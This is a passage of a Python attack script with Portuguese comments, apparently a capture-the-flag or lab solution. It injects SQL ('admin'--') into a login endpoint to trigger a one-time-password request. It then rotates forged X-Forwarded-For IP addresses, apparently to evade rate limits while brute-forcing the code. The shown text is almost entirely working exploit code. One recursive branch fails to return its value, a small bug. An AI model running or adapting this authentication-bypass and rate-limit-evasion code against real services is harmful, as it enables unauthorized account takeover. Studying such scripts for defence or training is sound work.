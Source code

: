 ```python
    Se houver hosts existentes, verifica o último host na lista. Se o
    último host foi usado 20 vezes ou menos, incrementa a contagem de uso
    e retorna o endereço IP do host. Caso contrário, gera um novo endereço
    IP aleatório.

    O novo endereço IP é gerado no formato 'X.X.X.X', onde X é um
    número aleatório dentro do intervalo especificado. Se o endereço IP
    gerado não estiver já na lista de hosts, adiciona o novo host com uma
    contagem de uso de 0 e retorna o endereço IP. Se o endereço IP gerado
    já estiver na lista, chama a si mesmo recursivamente para gerar um novo
    endereço IP.

    Retorna:
        str: Um endereço IP de host aleatório ou existente.
    """
    if len(hosts) > 0:  # Se houver hosts existentes
        last_host = hosts[-1]  # Obtém o último host na lista
        if last_host[1] <= 20:  # Se o último host foi usado 20 vezes ou menos
            hosts[-1] = (last_host[0], last_host[1] + 1)  # Incrementa a contagem de uso
            return last_host[0]  # Retorna o endereço IP do host
    # Caso contrário, gera um novo endereço IP aleatório
    host = f"{randrange(0, 224)}.{randrange(0, 255)}.{randrange(0, 255)}.{randrange(0, 255)}"
    # Se o endereço IP gerado não estiver na lista de hosts
    if host not in hosts:
        hosts.append((host, 0))  # Adiciona o novo host com uma contagem de uso de 0
        return host  # Retorna o endereço IP do host
    # Caso contrário, chama a si mesmo recursivamente para gerar um novo endereço IP único
    else:
        random_host()


def request_otp(session: Session) -> Response:
    """
    Envia uma solicitação POST para o endpoint de login para solicitar uma senha única (OTP).

    Argumentos:
        session (Session): O objeto de sessão do requests para manter a sessão.

    Retorna:
        Response: O objeto de resposta da solicitação POST.
    """
    return session.post(
        f"{url}//auth/login",  # URL do endpoint de login
        data={"username": "admin'--", "password": "admin"},  # Injetando SQL malicioso
        # proxies={"http": "http://127.0.0.1:8080"}, # Configuração do proxy (para testes)
    )


def send_otp_code(session: Session, code: str) -> Response:
    """
    Envia um código de senha única (OTP) para o servidor para verificação.

    Argumentos:
        session (Session): O objeto de sessão do requests a ser usado para fazer a solicitação HTTP.
        code (str): O código OTP a ser enviado para verificação.

    Retorna:
        Response: O objeto de resposta HTTP retornado pelo servidor após tentar verificar o código OTP.
    """
    # Adiciona o cabeçalho 'X-Forwarded-For' com um endereço IP de host aleatório
    session.headers.update({"X-Forwarded-For": random_host()})
```